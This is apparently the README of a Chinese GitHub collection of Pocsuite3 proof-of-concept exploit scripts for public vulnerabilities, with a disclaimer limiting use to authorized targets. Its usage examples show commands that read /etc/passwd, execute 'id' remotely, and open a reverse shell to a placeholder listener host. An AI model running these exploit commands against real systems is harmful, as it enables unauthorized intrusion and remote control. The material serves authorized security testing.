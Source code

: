 # PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目主要用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证主要使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员

Github地址 : https://github.com/knownsec/pocsuite3

![](image/image-1.png)

## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

## 公众号

![](image/image-2.png)

## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```
![](image/image-3.png)

```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```
![](image/image-4.png)

```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```
![](image/image-5.png)

## 最后
```
别忘了Github下载完给个小星星⭐
```

[![Stargazers over time](https://starchart.cc/PeiQi0/PeiQi-WIKI-PocSuite3.svg)](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

